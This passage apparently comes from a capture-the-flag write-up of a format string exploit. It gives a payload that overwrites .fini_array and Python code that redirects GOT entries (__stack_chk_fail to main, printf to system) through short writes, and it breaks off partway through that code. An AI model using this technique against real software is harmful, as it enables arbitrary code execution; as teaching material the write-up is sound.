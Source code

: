 Which constructs the fms exploit string `%267$08x%264$08x[.fini_array_lsb_address]%valx%11$hn.` which executes a short-write (ie. it writes the number of bytes printed by the fms as a short to the target address). Note that in the above we only have to overwrite the least significant 16 bits of the pointer stored at `.fini_array` since the original pointer and the overwriting pointer are both function pointers to the target application.

## Stage 2

When we have the leaked pointers we can determine the stack cookie address and address of `system()` and execute our stage 2:

```python
def construct_stage_2(stackcookie_addr, system_addr):
  # Offsets of first 3 DWORDs of our buffer on stack and the saved stack cookie (in DWORDs)
  offset = [7, 8, 9, 10]

  # .got:__stack_chk_fail address
  dst_addr_1 = 0x080497E4
  # <main+0> address
  main_lsb = 0x849B

  # .got:printf address
  dst_addr_2 = 0x080497DC
  # __libc_system address
  # LSBs and MSBs are written seperately in short writes
  system_lsb = (system_addr & 0x0000FFFF)
  system_msb = ((system_addr & 0xFFFF0000) >> 16)

  # Addresses to write to
  adr = [0, 0, 0, 0]
  # Values to print to adjust internal output counter for writing
  val = [0, 0, 0, 0]

  # these bytes will have been already output (for addresses) upon first fms output
  already_written = (4 * 4)

  # We write in ascending order of size
  # main_lsb is smallest
  if ((main_lsb < system_lsb) and (main_lsb < system_msb)):
    # write main_lsb first
    adr[0] = (dst_addr_1)
    val[0] = (main_lsb - already_written)

    if (system_lsb < system_msb):
      # write system_lsb next
      adr[1] = (dst_addr_2)
      val[1] = (system_lsb - main_lsb)

      adr[2] = (dst_addr_2 + 2)
      val[2] = (system_msb - system_lsb)
    else:
      # write system_msb next
      adr[1] = (dst_addr_2 + 2)
      val[1] = (system_msb - main_lsb)

      adr[2] = (dst_addr_2)
      val[2] = (system_lsb - system_msb)

  # system_lsb is smallest
  elif ((system_lsb < main_lsb) and (system_lsb < system_msb)):
    # write system_lsb first
    adr[0] = (dst_addr_2)
    val[0] = (system_lsb - already_written)

```